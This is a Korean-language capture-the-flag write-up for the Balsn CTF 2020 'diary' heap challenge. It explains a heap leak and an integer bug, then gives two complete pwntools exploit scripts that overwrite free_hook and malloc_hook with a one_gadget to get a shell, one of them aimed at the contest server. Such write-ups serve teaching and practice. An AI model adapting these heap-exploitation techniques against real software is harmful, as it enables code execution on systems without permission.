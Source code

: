 ```yaml
---
layout: post
title: Balsn CTF 2020 diary write up
categories: ctf-write-up
tag: [heap, ctf]
---
```


이 문제는 우분투 19.04의 Heap 문제이다.  힙 문제라 그런지 보호기법은 모두 걸려있다.
![image](https://user-images.githubusercontent.com/43925259/99204639-a3993980-27f9-11eb-873b-4116547fedd2.png)

먼저 이 프로그램엔 2가지의 버그가 존재한다.

첫 번째 버그는 name 값 바로 뒤에 힙 포인터들을 저장함으로써 발생하는 `Heap leak`이다.

두 번째 버그는 Edit 기능에 있는 `Integer issue`이다.

나는 우분투 19.04가 없어서 18.04에서 먼저 익스를 진행했다. BSS 영역에 존재하는 자기 자신을 가리키는 pointer를 이용하여 bss 영역에 원하는 값을 넣을 수가 있었다.

free가 되었는지 확인하는 변수와 힙 포인터들을 덮기 위해선 stdin과 stdout을 덮어야 했다. 이때 이 영역을 'AAAAAA....' 값을 저장해놓은 힙 주소로 덮었더니 printf가 동작하지 않았지만 puts가 동작했다.

이를 이용하여 0x80을 8개 할당하고 8개 해제함으로써 힙에 생기는 libc 주소를 leak하고 `free_hook`을 `one_gadget`으로 덮음으로써 익스를 했다.

코드는 다음과 같다.
```python
from pwn import *

p = process('./diary')
e = ELF('./diary')
libc = e.libc

def get_name():
    p.sendafter(': ', '1')

def Malloc(length, content):
    p.recv()
    p.send('2')
    p.recv(timeout=1)
    p.send(str(length))
    p.recv(timeout=1)
    p.send(content)

def View(page):
    p.recv()
    p.send('3')
    p.recv(timeout=1)
    p.send(str(page))

def Edit(page, content):
    p.recv()
    p.send('4')
    p.recv(timeout=1)
    p.send(str(page))
    p.recv(timeout=1)
    p.send(content)
    
def Free(page):
    p.recv()
    p.send('5')
    p.recv(timeout=1)
    p.send(str(page))

p.sendafter(': ', 'A' * 0x20)

for i in range(8):
    Malloc(0x80, 'B' * 0x80)

for i in range(7, -1, -1):
    Free(i)

get_name()
p.recvuntil('A' * 0x20)
leak = u64(p.recv(6).ljust(8, '\x00'))
print hex(leak)

payload = ''
payload += p32(leak >> 32)
payload += 'A' * 0x10
payload += p64(leak)
payload += 'A' * 8
payload += p64(leak)
payload += 'A' * 0x28
payload += p64(leak + 4)
payload += p64(0) * 28
Edit(-11, payload)

View(0)
leak = u64(p.recvuntil('\x7f')[-6:].ljust(8, '\x00'))
libc_base = leak - 0x3ebca0 
one_gadget = libc_base + 0x4f3c2

print hex(leak)
print hex(libc_base)

payload = ''
payload += p32(leak >> 32)
payload += 'A' * 0x10
payload += p64(leak)
payload += 'A' * 8
payload += p64(leak)
payload += 'A' * 0x28
payload += p64(libc_base + 0x3ecd98)
payload += p64(0) * 28
Edit(-11, payload)
Edit(0, 'A' * 4 + p64(0) * 361 + p64(one_gadget))

Free(0)
p.interactive()
```

first  blood를 할 수 있을 줄 알고 신나있었지만, 우분투 19.04에선 동작하지 않았다. 18.04와 다르게 19.04는 printf와 puts 둘다 동작하지 않아서 leak이 불가능했다.

그래서 익스 방법을 바꿔서 bss영역이 아닌 stdin 영역을 이용했다. stdin 영역의 뒤를 보면 `malloc_hook`과 `main_arena` 영역이 존재한다.

여기서 `main_arena`에 fastbin을 관리하는 영역이 존재한다. 이 영역에 원하는 힙 주소를 써주면 다음 malloc시에 우리가 써준 영역에 할당 가능하다. (단 fake size를 만들어 주어야 함)

이를 이용하여 chunk를 `overlapping`하여 leak을 하고 `malloc_hook`을 `one_gadget`으로 덮었다.

아마 이것은 언인텐드 풀이일 것이다.
```python
from pwn import *

#p = process('./diary')
p = remote("diary.balsnctf.com", 10101)
e = ELF('./diary')
libc = e.libc

def get_name():
    p.sendafter(': ', '1')

def Malloc(length, content):
    p.sendafter(': ', '2')
    p.sendafter(': ', str(length))
    p.sendafter(': ', content)

def View(page):
    p.sendafter(': ', '3')
    p.sendafter(': ', str(page))

def Edit(page, content):
    p.sendafter(': ', '4')
    p.sendafter(': ', str(page))
    p.sendafter(': ', content)
    
def Free(page):
    p.sendafter(': ', '5')
    p.sendafter(': ', str(page))

p.sendafter(': ', 'A' * 0x20)

for i in range(4):
    Malloc(0x80, '\x00' * 12 + p64(0) + p64(0x41) + (p64(0) + p64(0x61)) * 5)

get_name()
p.recvuntil('A' * 0x20)
leak = u64(p.recv(6).ljust(8, '\x00'))
print hex(leak)

Malloc(0x80, '\x00' * 12 + p64(leak + 0x250) + p64(0) + p64(leak + 0x2d0) + p64(0))
Malloc(0x80, '\x00' * 12 + p64(leak + 0x2e0) + p64(0) + p64(leak + 0x360) + p64(0))
Malloc(0x80, '\x00' * 12 + p64(leak + 0x370) + p64(0) + p64(leak + 0x78) + p64(0))
Malloc(0x80, '\x00' * 12 + p64(0) + p64(0x0) + (p64(0) + p64(0x61))*5)

for i in range(7, -1, -1):
    Free(i)

Malloc(0x30, 'A' * 4 + p64(0x41)) # 8

payload = ''
payload += 'A' * (0x22c - 0x20)
payload += p64(0)
payload += p64(0x71)
payload += p64(0)
payload += p64(0)
payload += p64(0) # malloc_hook
payload += p64(0) * 3
payload += p64(leak) * 4    # 0x20 ~ 0x50
payload += p64(leak + 0x50) # 0x60
payload += p64(leak + 0x70) # 0x70
Edit(-6, payload)

Malloc(52, 'A' * 52) # 9

View(9)
libc_base = u64(p.recvuntil('\x7f')[-6:].ljust(8, '\x00')) - 0x1e4ca0
print hex(libc_base)

off = [0xe237f, 0xe2383, 0xe2386, 0x106ef8]

one_gadget = libc_base + off[3]

Malloc(0x50, '\x90' * 4 + p64(0x61) + p64(0) + p64(0x71) + p64(leak + 0x240) + p64(libc_base + 0x1e4c10))
Malloc(0x60, p64(0))
Malloc(0x60, '\x90' * 12 + p64(one_gadget))

p.sendafter(': ', '2')
p.sendafter(': ', '10')
p.interactive()
```
